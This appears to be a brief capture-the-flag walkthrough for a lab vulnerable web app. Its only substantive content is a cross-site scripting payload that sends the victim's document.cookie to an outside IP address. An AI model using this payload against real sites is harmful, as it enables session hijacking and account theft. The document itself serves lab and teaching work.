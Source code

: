 ```yaml
---
date: 2025-02-20
categories: [CTF, IML]
title: "IML - Mini CTF: Vulnerable Web App – Ep.3"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App – - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.3


![image1](../resources/5b798f6da8f641a3b617ece54837c76f.png)

- Get an input field that broadcasts:


![image2](../resources/da75ca20153e48c98a269378acaa017d.png)

- Use payload:
```bash
<img src=x onerror="location.href='http://10.102.120.158:8001/?c='+ document.cookie">

```

![image3](../resources/14d26214249741618a0004b3d39c7f64.png)